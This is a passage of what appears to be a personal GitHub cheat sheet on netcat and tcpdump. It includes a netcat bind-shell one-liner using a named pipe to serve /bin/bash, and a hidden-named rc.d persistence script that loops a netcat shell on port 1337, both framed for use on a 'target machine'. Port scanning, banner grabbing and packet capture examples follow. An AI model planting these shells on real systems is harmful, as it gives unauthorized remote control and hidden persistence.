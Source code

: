 		I don't know how to automate it yet but i can create a reverse shell on a target machine.
		Unfortunately netcat option __-e__ is discarded but with a Ubuntu Server 18.04 I can do something like this:	
	    * Server listning and provide a shell (I can use cron but it is veary loud)
            ```sh
            #!/bin/sh
	        rm -f /tmp/.fdata && mkfifo /tmp/.fdata && cat /tmp/.fdata | /bin/bash -i 2>&1 | nc -l [host] [port] > /tmp/.fdata
	    * From attacking perspective
	        ```
            nc [host] [port]		
	*	Old way working on linux was simple script run from __rc__ directory:
	    ```sh
        #!/bin/sh
		#save in /etc/rc.d/rc.ftpp
		mkdir -p /etc/ftp/.data
		while true ; do
  			cd /etc/ftp/.data | nc -l -p 1337 -e /bin/sh
		done
* Scanning and Enumeration with Netcat
_Pasive banner grabbing_
    ```
	nc [host] 80 --> for system information
	nc [host] 25 --> for mail information
* Discovering open ports on a machine
	```
    nc -z -vv -w 1 192.168.1.100 20-25
	
    -z = Zero-I/O mode, report connection status only
	-vv = Use more than once (-vv, -vvv...) for greater verbosity. With -v it will be verbose and display all kinds of useful connection based information
    -w 1 = wait for 1 sec
    20-25 = port range
    ```
#### <span style="color:green">TCPDUMP</span>

[back to TOOLS](https://github.com/Kiljan/Voodoo#tools "TOOLS")

* Program for captures network traffic and prints it out. 
```
Example output  
| timestamp | source IP | port | dest IP | port | query/flag |
```
_PS. Flag [.] means ACK_

* Common usage:
	*	What dns queries is my laptop sending ?
        ```
        tcpdump -n -p -i any port 53
		
        -n = do not resolve names
		-p = makes sure I only get packets that are to or from Mine computer   
		-i = chose interface
	*	I have a server running on port 1337. Are any packets arraiving at that port at ALL ??
		```
        tcpdump -i any port 1337
	*	What packets are coming into my server (port 1337) from ip 1.2.3.4 ?
		```
        tcpdump port 1337 and host 1.2.3.4		
	*	How long are the TCP connections on this box listing right now ? <br>_Resoult file analyze by WIRESHARK_
		```
        tcpdump -c 10000 -w packets.pcap
		-c = count _only capture 10000 packets in example above_
		-w = writes _write to a .pcap file_
* Connection refused error